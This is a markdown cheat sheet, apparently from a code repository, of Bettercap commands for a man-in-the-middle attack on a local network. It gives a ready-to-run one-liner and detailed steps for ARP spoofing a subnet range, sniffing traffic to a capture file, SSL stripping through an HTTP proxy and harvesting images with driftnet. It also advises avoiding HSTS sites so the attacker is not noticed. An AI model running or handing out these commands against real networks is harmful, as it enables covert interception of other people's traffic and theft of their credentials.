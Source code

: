 # Bettercap Quick Commands


Beware: Commands might be outdated


## One liner
Note: Make sure to edit output file `<DATE>`and list of IP Addresses `X.X.X.1-253` to spoof

1. Run bettercap
    ```bash
    ./bettercap -iface eth0 -eval "set net.sniff.filter not arp and not udp dst port 53 and not udp dst port 5353;set net.sniff.output arp.spoof.<DATE>.cap;net.sniff on;set arp.spoof.targets X.X.X.1-253;arp.spoof on"
    ```
1. Open pcap in wireshark and input “http” on the filter box


---

## Detailed version
* Basic Setup
    ```bash
    net.sniff.output bettercap-output
    set net.sniff.filter not arp and not udp dst port 53 and not udp dst port 5353
    net.sniff on
    ```
* ARP Spoofing part
    ```bash
    set arp.spoof.targets x.x.x.1-253 # Make sure to avoid including gateways & network switches
    arp.spoof on
    ```

* HTTP Proxy for SSLStrip (*BEWARE of websites that use HSTS. Avoid or whitelist at all costs to avoid disruption or being noticed*)
    ```bash
    set http.proxy.port 8080
    set http.proxy.whitelist <subnet_to_whiltelist_1/24>,<subnet_to_whiltelist_2/28>,<subnet_to_whiltelist_3/32>
    set http.proxy.sslstrip <true/false>
    http.proxy on
    ```
* Turn of Driftnet
    ```bash
    driftnet -d <Driftnet_save_folder_directory> -i eth0
    ```
* Logging
    ```bash
    ./bettercap ... 2>&1 | tee “bettercap.log”
    ```
---
## Tips
* To turn on webUI (*WARNING: This will slow down you kali and bettercap a lot. If you slow down you Kali or bettercap, the network/target traffic that you are intercepting slows down too*)
    * start bettercap with
     ```bash
     ./bettercap -caplet http-ui ... ... ... ...
     ```
    * Manual (Already in bettercap cli)
     ```bash
     include http.ui
     set http.server.port 8888 
     http.server off
     http.server on
     ```
